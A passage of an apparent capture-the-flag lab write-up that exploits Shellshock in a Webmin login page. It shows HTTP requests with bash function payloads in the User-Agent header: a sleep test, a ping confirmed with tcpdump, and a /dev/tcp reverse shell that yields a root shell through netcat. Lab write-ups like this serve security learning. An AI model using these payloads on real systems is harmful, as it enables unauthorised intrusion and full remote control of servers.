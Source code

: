     
    
    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };sleep 10
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1
    
    page=%2F&user=root&pass=root
    

It hangs for 10 seconds and then returns. I’ll try a `ping`:

    
    
    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };ping -c 1 10.10.14.2
    Content-Length: 28
    
    page=%2F&user=root&pass=root
    

At `tcpdump`, I see it arrive:

    
    
    root@kali$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:46:35.325588 IP 10.10.10.7 > 10.10.14.2: ICMP echo request, id 23824, seq 1, length 64
    14:46:35.325599 IP 10.10.14.2 > 10.10.10.7: ICMP echo reply, id 23824, seq 1, length 64
    

So now can get shell (as root):

    
    
    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
    Content-Length: 28
    
    page=%2F&user=root&pass=root
    
    
    
    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 36248
    bash: no job control in this shell
    [root@beep webmin]# id
    uid=0(root) gid=0(root)
    